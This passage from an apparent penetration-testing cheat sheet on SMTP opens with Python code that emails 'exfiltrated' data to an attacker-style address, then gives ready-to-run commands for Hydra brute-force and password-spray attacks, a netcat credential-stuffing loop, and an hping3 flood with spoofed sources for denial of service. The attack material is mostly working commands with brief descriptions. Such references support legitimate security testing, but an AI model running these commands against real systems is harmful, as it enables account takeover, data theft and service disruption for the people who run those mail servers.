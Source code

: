     msg = MIMEText("Sensitive data exfiltrated")
    msg['Subject'] = "Exfil Data"
    msg['From'] = "attacker@example.com"
    msg['To'] = "recipient@example.com"

    s = smtplib.SMTP('<target_ip>')
    s.sendmail(msg['From'], [msg['To']], msg.as_string())
    s.quit()
    ```
* **Description:** Sends sensitive data through SMTP emails to an external address, bypassing traditional file transfer monitoring.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smtp://<target_ip> -s 25 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smtp://<target_ip> -s 25 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Credential Stuffing

*   **Tool:** \[\[Custom Scripts]], \[\[NetCat]]

    ```bash
    while read p; do echo -e "AUTH LOGIN\n$(echo $p | base64)" | nc <target_ip> 587; done < passwords.txt
    ```
* **Description:** Attempts to authenticate using a list of known usernames and passwords, exploiting reused credentials.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
